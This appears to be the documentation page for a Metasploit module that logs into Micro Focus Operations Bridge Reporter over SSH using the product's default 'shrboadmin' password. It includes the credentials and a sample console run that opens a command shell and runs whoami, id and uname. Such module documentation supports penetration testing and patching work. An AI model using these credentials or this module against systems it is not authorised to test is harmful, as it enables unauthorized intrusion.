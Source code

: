 ## Vulnerable Application

This module abuses a known default password on Micro Focus Operations Bridge Reporter.
The 'shrboadmin' user, installed by default by the product has the password of 'shrboadmin', and allows an attacker to login to server via SSH.
This module has been tested with Micro Focus Operations Bridge Manager 10.40. Earlier versions are most likely affected too, but have not been tested with this module.
Note that this is only exploitable in Linux installations.

## Scenarios

Setup RHOST and run it!

```
msf6 > use exploit/linux/ssh/microfocus_obr_shrboadmin
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > set rhosts 10.0.0.100
rhosts => 10.0.0.100
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > run

[*] 10.0.0.100:22 - Attempt to login to the server...
[+] 10.0.0.100:22 - Login Successful (shrboadmin:shrboadmin)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.1:35023 -> 10.0.0.100:22) at 2021-04-23 14:44:09 +0700

whoami
shrboadmin
id
uid=1001(shrboadmin) gid=1001(shrboadmin) groups=1001(shrboadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
